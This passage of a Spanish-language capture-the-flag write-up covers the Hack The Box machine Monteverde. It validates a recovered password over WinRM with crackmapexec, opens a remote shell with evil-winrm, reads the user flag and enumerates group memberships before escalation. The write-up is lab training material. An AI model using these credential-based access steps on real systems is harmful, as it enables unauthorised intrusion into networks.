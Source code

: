 Es válida por ```WINRM```, por lo que puedo ganar acceso al sistema

```null
crackmapexec winrm 10.10.10.172 -u 'mhope' -p '4n0therD4y@n0th3r$'
SMB         10.10.10.172    5985   MONTEVERDE       [*] Windows 10.0 Build 17763 (name:MONTEVERDE) (domain:MEGABANK.LOCAL)
HTTP        10.10.10.172    5985   MONTEVERDE       [*] http://10.10.10.172:5985/wsman
WINRM       10.10.10.172    5985   MONTEVERDE       [+] MEGABANK.LOCAL\mhope:4n0therD4y@n0th3r$ (Pwn3d!)
```

```null
evil-winrm -i 10.10.10.172 -u 'mhope' -p '4n0therD4y@n0th3r$'

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\mhope\Documents> 
```

Puedo ver la primera flag

```null
*Evil-WinRM* PS C:\Users\mhope\Desktop> type user.txt
6eb32df9ae8dd1a3f00e3ffd6e795da6
```

# Escalada

Pertenezco al grupo ```Azure Admins```

```null
*Evil-WinRM* PS C:\Users\mhope\Desktop> net user mhope
User name                    mhope
Full Name                    Mike Hope
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            1/2/2020 3:40:05 PM
Password expires             Never
Password changeable          1/3/2020 3:40:05 PM
Password required            Yes
User may change password     No

Workstations allowed         All
Logon script
User profile
Home directory               \\monteverde\users$\mhope
Last logon                   3/7/2023 1:08:12 AM

Logon hours allowed          All

Local Group Memberships      *Remote Management Use
Global Group memberships     *Azure Admins         *Domain Users
The command completed successfully.
```
